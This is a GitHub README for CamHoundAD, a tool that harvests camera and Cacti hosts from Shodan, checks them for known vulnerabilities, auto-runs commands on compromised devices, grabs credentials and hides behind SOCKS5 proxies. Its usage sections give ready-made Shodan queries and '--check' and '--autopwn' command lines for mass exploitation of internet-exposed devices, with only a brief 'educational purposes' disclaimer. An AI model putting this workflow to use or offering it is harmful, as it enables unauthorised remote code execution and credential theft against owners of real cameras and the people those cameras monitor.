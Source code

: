 # CamHoundAD

<a href="https://github.com/byt3n33dl3/CamHoundAD/"><p align="center">
<img src="/screenshots/cctv.jpg">
</p></a>

This is a tool meant to assist **Cyber Security** researchers on discovering outdated and vulnerable camera systems on the internet by utilizing [shodan.io](shodan.io). I was able to discover thousands of vulnerable cameras using it. It could be for Cammera Attacks research, CCTV's Attacks research, etc.

# Vendors Affected

>- [+] Hikvision

>- [+] Nikon

>- [+] Avtech

>- [+] GoPro

>- [+] TVT

>- [+] Cacti

Coming Soon . . .

# Features

- Fetching of hosts from shodan.io
   - [Attacks Key](shodan.io)
- Check for vulnerable cameras
- Automatically run commands on exploited Devices
- Automatically grab camera credentials
- Multi-threading for faster scanning
- Usage of Socks5 proxies for anonymity
- Storing results in Sqlite3 database
- Logging all actions in log files 

# Prerequisites

To use this tool you need to have the following:
- Shodan API Key
- Socks5 authenticated proxies

# Installation

```python
git clone https://github.com/byt3n33dl3/CamHoundAD
pip install -r requirements.txt
python3 scanner.py --help
```

# Usage

## Collect hosts in database

```python
# Collect Hikvision hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Hikvision IP Camera"' --pages 1

# Collect Avtech hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'linux upnp avtech' --pages 1

# Collect TVT hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Cross Web Server"' --pages 1

# Collect Cacti hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'Login to Cacti' --pages 1
```

## Check hosts for exploit

```python
python3 scanner.py --check --proxy-file proxies.txt --threads 20
```

## Automatically run command on exploited hosts

```python
python3 scanner.py --autopwn --proxy-file proxies.txt --payload "id"
```

# About CamHoundAD

This tool is purely educational and is inteded to make the internet more secure. **I will not be responsible for any direct or indirect damage caused due to the usage of this tool, it is for educational purposes only.** Any PR's or suggestions on improving this project are welcome

## Exploits Used

[[+] Exploit-db](https://www.exploit-db.com/exploits/40500)

[[+] Exploit-db](https://www.exploit-db.com/exploits/50441)

[[+] RCE](https://github.com/k1p0d/h264_dvr_rce)

[[+] CVE](https://github.com/sAsPeCt488/CVE-2022-46169)
